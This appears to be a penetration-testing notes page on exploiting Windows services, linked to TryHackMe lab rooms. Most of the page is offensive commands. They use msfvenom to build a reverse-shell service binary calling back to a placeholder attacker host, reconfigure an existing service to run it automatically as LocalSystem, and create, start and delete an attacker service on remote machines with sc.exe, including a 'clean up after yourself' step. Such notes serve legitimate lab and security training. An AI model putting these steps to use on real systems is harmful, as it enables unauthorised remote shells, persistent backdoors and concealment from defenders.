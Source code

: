 # Exploiting Windows Services
Note that Windows services need to use an additional set of API calls that are not normally implemented in regular executables. While it *is* possible to run a normal executable as a service, the command will not survive for long (making a stable reverse shell impossible) and will always registered as failed (potentially alerting defenders).

## Backdooring Existing Services
Existing Windows services can have backdoors added to them using `msfvenom`. Begin by finding a candidate service:

```powershell
# Get a list of all available services
#
sc.exe query state=all

# Query information about an existing service. We want a
# service with three properties:
#
#    1. The BINARY_PATH_NAME points to our payload,
#    2. The START_TYPE is "auto" so it runs without user
#       interaction, and
#    3. The SERVICE_START_NAME (the account which the service
#       runs under) is "LocalSystem".
#
# Note that not every service can be queried, however; the
# ability to do so is controlled by a special per-service
# permission (a Discressionary Access Control List, or DACL).
#
sc.exe qc $SERVICE_NAME
```

Create a replacement service file using `msfvenom` (alternately, a backdoor could be added directly to the binary):

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
	-f exe-service -o $SERVICE_EXE
```

(The use of `exe-service` here rather than `exe` ensures that the correct APIs are available.)

Finally, update the service definition:

```powershell
# NOTE: A space is required after equals signs for this
# command! It’s not just a weird typo below!
#
sc.exe config $SERVICE_NAME `
	binPath= "$PATH_TO_REVERSE_SHELL_EXE" `
	start= auto obj= "LocalSystem"`
```

## Creating Service Remotely
> **Note:** By default, UAC restricts remote `sc.exe` calls to domain admins and the default local “Administrator” account. *Local Windows admins cannot call this service remotely without first disabling UAC!*

The `sc.exe` command can also be used to create and manipulate services on *remote* machines. This uses the Windows RPC (TCP 135), but will fall back to named pipes over SMB (TCP 445) or NetBIOS (TCP 139). (In fact, this is how `sc.exe` works locally as well; the only difference is that in this case a local named pipe is always used.)

```powershell
# Create $ATTACKER_SERVICE on the $TARGET_HOST.
#
sc.exe \\$TARGET_HOST create $ATTACKER_SERVICE `
                      binPath= "$SOME_COMMAND" start= auto

# Invoke $ATTACKER_SERVICE.
#
sc.exe \\$TARGET_HOST start $ATTACKER_SERVICE

# Make sure that $ATTACKER_SERVICE is really dead.
#
sc.exe \\$TARGET_HOST stop $ATTACKER_SERVICE

# Clean up after yourself.
#
sc.exe \\$TARGET_HOST delete $ATTACKER_SERVICE
```

Note that this is a blind attack — there will be no output indicating success or failure.

## Service Security
Service configurations are stored in the Registry under `HKLM\SYSTEM\CurrentControlSet\Services`; here the user is represented by the `ObjectName` value. DACLs are stored under each service as a `Security` sub-key.

## Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 
* [Using Metasploit](./Using%20Metasploit.md)
* [Using “netcat”](./Using%20%22netcat%22.md)
* [TryHackMe: Lateral Movement and Pivoting](https://tryhackme.com/room/lateralmovementandpivoting)
